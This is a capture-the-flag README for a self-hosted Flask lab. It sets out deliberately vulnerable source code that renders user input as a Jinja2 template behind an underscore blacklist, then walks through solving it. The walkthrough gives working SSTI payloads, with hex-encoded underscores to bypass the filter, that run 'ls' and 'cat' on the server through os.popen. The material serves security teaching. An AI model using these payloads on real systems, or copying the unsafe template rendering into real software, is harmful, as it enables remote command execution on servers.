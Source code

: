 # SSTI-Easy 2

### Difficulty: Easy

### Objective: Bypass blacklisted ("_")

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine. Then, install the files `app.py` , `Dockerfile` and `flag-d3a358c6bff2c9f7412e5485b3e2cd2e.txt` into the same directory.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>

The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` to list down files in the directory!

![image](https://github.com/user-attachments/assets/579ab938-dac5-4d4a-8aed-3edd8ad37819)

The website somehow is blocking our payload. Looks like they blacklisted some characters.

![image](https://github.com/user-attachments/assets/01fb2f5e-312b-48a1-b6b6-ffc1ceec65d7)

Let's analyze the source code and figure out what character did the website blacklisted.

### Source Code (python)
```python

from flask import Flask, request, url_for, render_template_string
import re

app=Flask(__name__)

blacklisted=[r"\_"]

@app.route('/', methods=('GET','POST'))
def index():
        if request.method=='POST':
                note=request.form['note']
                if sanitize(note):
                        return render_template_string(note)
                else:
                        return('Please provide valid text')
        return '''
                <form method="POST">
                        Note:<input type="text" name="note">
                        <input type="submit" value="Submit">
                </form>
        '''

def sanitize(x):
        for i in blacklisted:
                if re.findall(i,x):
                        return False
        return True

if __name__=='__main__':
        app.run(host='0.0.0.0',port= 5000,debug=True)  

```

The website is confirmed to be vulnerable to SSTI (Jinja 2) as the source code contains the function `render_template_string`. However, there is a function that seems to be preventing us from reaching the vulnerable function which is the `sanitize()`. It will return boolean `False` when it detected the strings contains underscores which can prevent a regular SSTI payload. We can use another SSTI payload to bypass this sanitization by encoding "_" into hex strings which is `\x5f`. Therefore, the payload should look something like this.

`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('ls')['read']()}}`

Let's use this payload to list down the directories and see what happens.

![image](https://github.com/user-attachments/assets/e3482f8e-2d40-45b3-b004-398812761e3c)

And it works! We successfully view all the files contain inside the server directory. Let's try viewing the flag using this command:

`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('cat flag-d3a358c6bff2c9f7412e5485b3e2cd2e.txt ')['read']()}}`

![image](https://github.com/user-attachments/assets/28949435-0e8d-4d1c-b292-492768262978)


## Flag
>flag{3a823364c48716d80fb5a766454bacd4} 

</details>
